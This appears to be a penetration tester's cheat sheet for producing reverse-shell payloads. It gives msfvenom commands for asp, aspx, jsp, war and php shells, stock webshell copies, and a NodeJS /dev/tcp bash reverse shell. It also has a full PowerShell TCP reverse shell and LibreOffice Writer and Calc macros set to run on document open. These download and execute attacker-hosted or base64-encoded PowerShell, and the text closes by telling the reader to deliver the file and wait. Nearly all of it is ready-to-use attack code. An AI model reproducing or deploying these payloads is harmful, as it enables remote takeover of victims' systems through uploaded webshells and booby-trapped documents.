 #### asp
Is it IIS 5.1?

5.1
```bash - kali
cp /usr/share/webshells/asp/cmd-asp-5.1.asp .
```

![[Pasted image 20220614101904.png]]

OR

```bash - kali
cp /usr/share/webshells/asp/cmdasp.asp .
```

32 bit Stageless:
```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse86.asp
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f asp > reverse64.asp
```

#### aspx
```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

32 bit Stageless:
```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

32 bit Staged:
```bash - kali
msfvenom -p windows/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse86.aspx
```

64 bit Stageless:
```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

64 bit Staged:
```bash - kali
msfvenom -p windows/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f aspx > reverse64.aspx
```

#### jsp	
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f raw > reverse.jsp
```

#### jar / war
```bash - kali
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=443 -f war > reverse.war
```

Sometimes the jar itself will not work, we need to extract and upload one of its files:

```bash - kali
jar -xvf reverse.war
```

Now find and upload the .jsp file

#### NodeJS
```
echo "require('child_process').exec('bash -c \\'bash -i >& /dev/tcp/$KALI/443 0>&1\\''" > /var/www/node/package.js
```

#### php
```bash - kali
msfvenom -p php/reverse_php LHOST=$KALI LPORT=443 -f raw > reverse.php
```


#### .odt LibreOffice

save the following as Shelly.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('$KALI',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash - kali
sudo apt install libreoffice-writer
```

Open LibreOffice Writer application.  start a new file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.

```
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell iwr http://$KALI/Shelly.ps1 -o %TEMP%/Shelly.ps1")
	Shell("cmd /c powershell -c %TEMP%/Shelly.ps1")
End Sub

```

**Save the document** as odt format.

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

**Save file**

```bash - kali
chmod 755 Shelly.ps1
```

![[Python#Server]]

![[rlwrap]]

upload odt file.

#### .hta - .ods LibreOffice

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f hta-psh -o evil.hta
```

Open the hta file, copy the "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

```bash - kali
mousepad transform.py
```

Paste in place for the s variable.
```python
s = "powershell.exe -nop -w hidden -e aQBmA...CQAcwApADsA"

n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

```bash - kali
sudo apt install libreoffice-calc
```

start a new LibreOffice Calc file, go to Tools > Macros > Organize Macros > basic.

select "FILE NAME" > New.  Name the Module.  Paste in your generated to look like this:

==NOTICE HOW THIS STARTS WITH "cmd.exe /C ......."==

Make sure your Dim and Str's line up!

---

Sub Exploit

   Dim Str As String

   Str = Str + "cmd.exe /C powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
   Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
   Str = Str + "AUwAyAEIAMABLAEEAQQBBAD0AJwAnACkAKQApACwAWwBTAHkAc"
   Str = Str + "wB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgA"
   Str = Str + "uAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6A"
   ...
   Str = Str + "EQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQ"
   Str = Str + "AbwBFAG4AZAAoACkAKQApACcAOwAkAHMALgBVAHMAZQBTAGgAZ"
   Str = Str + "QBsAGwARQB4AGUAYwB1AHQAZQA9ACQAZgBhAGwAcwBlADsAJAB"
   Str = Str + "zAC4AUgBlAGQAaQByAGUAYwB0AFMAdABhAG4AZABhAHIAZABPA"
   Str = Str + "HUAdABwAHUAdAA9ACQAdAByAHUAZQA7ACQAcwAuAFcAaQBuAGQ"
   Str = Str + "AbwB3AFMAdAB5AGwAZQA9ACcASABpAGQAZABlAG4AJwA7ACQAc"
   Str = Str + "wAuAEMAcgBlAGEAdABlAE4AbwBXAGkAbgBkAG8AdwA9ACQAdAB"
   Str = Str + "yAHUAZQA7ACQAcAA9AFsAUwB5AHMAdABlAG0ALgBEAGkAYQBnA"
   Str = Str + "G4AbwBzAHQAaQBjAHMALgBQAHIAbwBjAGUAcwBzAF0AOgA6AFM"
   Str = Str + "AdABhAHIAdAAoACQAcwApADsA"

   Shell(Str)

End Sub

---

**Save the document**

We then need to make this macro run automatically when the document is opened.

Get out of the macro screen, back to the original file window.
go to Tools > customize > Events > Open Document > Macro >  double click "filename" > double click Standard > Select "macro name" > click OK > click OK

Now just deliver the file and wait for it to be opened.
